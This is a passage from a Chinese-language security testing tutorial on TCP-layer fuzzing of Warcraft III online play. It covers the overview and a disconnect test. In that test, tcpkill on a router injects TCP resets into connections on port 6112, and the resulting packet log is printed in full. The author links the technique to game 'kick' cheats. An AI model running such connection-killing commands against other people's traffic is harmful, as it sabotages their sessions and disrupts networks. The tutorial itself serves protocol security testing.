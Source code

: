 # TCP安全测试指南-魔兽3找联机0day

在安全测试的过程中，我们通常使用应用层工具直接测试待测目标，比如一个HTTP网站应用程序，我们可以直接发送HTTP请求来对其进行模糊测试，而对于HTTPS，也可以建立SSL连接后直接发送HTTP请求对其进行模糊测试

然而在某些黑盒测试中，由于信息不对称，我们无法获悉应用层协议的具体格式，因此难以直接在应用层进行安全测试，这时我们需要对应用层协议本身进行FUZZ，这就需要使用更底层协议来进行安全测试

本文以著名的RTS游戏魔兽争霸3为例，介绍在网络层对TCP连接进行安全测试的基本工具、方法、以及漏洞挖掘思路

0x00 概述
=====

我想测试魔兽争霸3联机游戏的安全问题

然而魔兽争霸3并没有使用HTTP协议来进行通信，因此我既不能用burp来proxy拦截，也不能直接用curl等常用工具来进行FUZZ

魔兽争霸3联机对战使用了TCP连接，自己定义了一套数据包格式（已经有人分析过了，但在本文中我们假设数据包格式未知）

所以我要在传输层对魔兽争霸3的TCP连接进行安全测试，重点测试以下内容：

1.  断线重连
2.  网络的延迟与丢包
3.  TCP原始数据的嗅探/修改
4.  TCP连接的重放与交互式测试

0x01 断线测试
=====

由于魔兽争霸3并没有断线重连机制，所以TCP连接断开后会直接导致游戏断开，而在许多第三方对战平台上，玩家的离线等同于战败，因此也诞生了许多游戏“踢人”外挂

下面使用WooyunWifi路由器上的dsniff工具包中的tcpkill工具为例进行测试：

```
root@OpenWrt:~# tcpkill -i br-lan port 6112
tcpkill: listening on br-lan [port 6112]
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503812:2875503812(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504063:2875504063(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504565:2875504565(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503812:2875503812(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504063:2875504063(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504565:2875504565(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970133:2041970133(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970389:2041970389(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970901:2041970901(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503818:2875503818(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504069:2875504069(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504571:2875504571(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970133:2041970133(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970389:2041970389(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970901:2041970901(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503824:2875503824(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504075:2875504075(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504577:2875504577(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970142:2041970142(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970398:2041970398(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970910:2041970910(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503824:2875503824(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504075:2875504075(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504577:2875504577(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970151:2041970151(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970407:2041970407(0) win 0
192.168.1.163:6112 > 192.168.1.143:59892: R 2041970919:2041970919(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503830:2875503830(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504081:2875504081(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875504583:2875504583(0) win 0
192.168.1.143:59892 > 192.168.1.163:6112: R 2875503830:2875503830(0) win 0

```
